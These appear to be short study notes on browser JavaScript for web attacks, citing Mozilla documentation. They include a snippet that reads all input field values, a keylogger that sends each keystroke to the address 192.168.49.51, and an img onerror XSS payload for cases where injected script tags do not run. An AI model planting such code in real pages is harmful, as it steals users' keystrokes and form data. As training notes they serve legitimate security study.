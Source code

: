 #### Javascript method

=====
function processData(data) {
    data.items.forEach(item => {
      console.log(item)
    });
  }

let foo = {
    items: [
      "Hello",
      "Zdravo",
      "Hola"
    ]
  }

processData(foo)
=====

(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Functions ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

type "allow pasting" in firefox web console.

====
let inputs = document.getElementsByTagName("input") 

for (let input of inputs){
    console.log(input.value)
}

====

#### key logging

====
function logKey(event){
	console.log(event.key);
	fetch("http://192.168.49.51/k?key=" + event.key);
}

document.addEventListener('keydown', logKey);
====

1
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/location ↩︎

2
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage ↩︎

3
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document ↩︎

4
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/Events ↩︎

5
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch ↩︎

6
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Promise ↩︎

7
(Mozilla, 2021), https://developer.mozilla.org/en-US/docs/Web/API/Document/keydown_event ↩︎

In case of innerHTML script tag does not get executed. use img tag.
<img src=x onerror=alert(0)>

https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML ↩︎

